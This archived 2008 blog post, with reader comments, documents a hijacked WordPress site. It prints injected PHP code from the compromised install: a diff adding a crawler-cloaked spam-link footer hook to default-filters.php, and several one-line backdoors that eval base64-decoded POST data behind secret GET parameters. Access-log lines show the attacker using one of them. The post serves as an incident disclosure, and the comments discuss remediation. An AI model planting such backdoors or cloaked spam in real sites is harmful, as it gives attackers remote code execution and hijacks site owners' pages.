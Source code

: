 ```yaml
---
title: wpc7c16b8466d864eeefd20050625c7775
comments:
  - author: Albert
    email: albert.lash@savonix.com
    date: 02/25/2008 12:57:10 PM
    text: >
      I've added a bevy of IP CIDR blocks to my POST restrictions, and I'm definitely going to review all of Wordpress for this.
  - author: Albert
    email: albert.lash@savonix.com
    date: 02/25/2008 06:40:58 PM
    text: >
      As far as I can tell, this is a well know vulnerability, and Automattic has since fixed the issue. In my case, to remedy the situation, I changed the permissions to read only in wp-includes, wp-admin, as well as reviewed all the files to remove the injected scripts.
  - author: Michi
    email: fritzbrause@hotmail.com
    date: 03/06/2008 08:26:46 PM
    text: >
      I found this by searching "194.110.162.23" because my wordpress got hijacked as well. I stil don't really know what and how that happened. Do you have any more information? How did they get access?
  - author: Albert
    email: albert.lash@savonix.com
    date: 03/06/2008 09:32:00 PM
    text: >
      Hi Michi, there are probably a bunch of different ways its done, but in my case, here's what I *think* happened:<br/><br/>1. Abuser registered and gained access to some basic functionality -or- used a cookie to execute some malicious code, not sure<br/>2. My server files had incorrect permissions - the web server was able to write to the wp-includes directory and files<br/>3. Abuser modified files to act as a gateway to execute their own php scripts (and shell scripts?) on server<br/><br/>I made several changes to my setup, an important one being to change all the wordpress php files to be only readable by the webserver.
date: 2008-02-25
tags: wordpress
---
```

<pre>--- default-filters.php (revision 6)
+++ default-filters.php (working copy)
@@ -42,6 +42,26 @@ add_filter('comment_flood_filter', 'wp_throttle_comment_flood', 10, 3);
++add_action('wp_footer','wpc7c16b8466d864eeefd20050625c7775');
+function wpc7c16b8466d864eeefd20050625c7775() {
+        $seau=array("google","yahoo","slurp","msn","live","ask","altavista","aol");
+       $sebot=""; foreach($seau as $ua) if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']),$ua)!==false){ $sebot="1"; break; }
+       if(!($sebot==1 && sizeof($_COOKIE)==0)) return;
+       @include('./wp-includes/class-mail.php');
+       if(sizeof($wparr)>0){
+               shuffle($wparr);
+               echo "<div id=\"_wp_footer\">";
+               foreach($wparr as $k=>$v){
+                       echo "<a href=\"".$v['url']."\" title=\"".ucwords($v['key'])."\">".ucwords($v['key'])."</a>\n";
+                       if($i++==$inum) break;
+               }
+               echo "</div>".$_footer;
+       }
+}
+++</pre>

<pre>&lt;?php if($_GET['f41887163354da50']=="28cbddc8f3bcd0f7"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['6fed0a04901ae41f']=="a1ceef3a748b981b"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['666a6114308099d3']=="a5522ccd36231771"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['970a0ddc6270e0ca']=="178d4b7fa8fc73a4"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['476cec30ae48ed13']=="1682480ecf14ff65"){ eval(base64_decode($_POST['file'])); exit; } ?></pre>

Bad news. Who is responsible?

<pre>www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:06 -0500] "POST /blog/wp-includes/default-filters.php?970a0ddc6270e0ca=178d4b7fa8fc73a4 HTTP/1.1" 200 179

www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:07 -0500] "POST /blog/ HTTP/1.1" 200 27176</pre>

¥

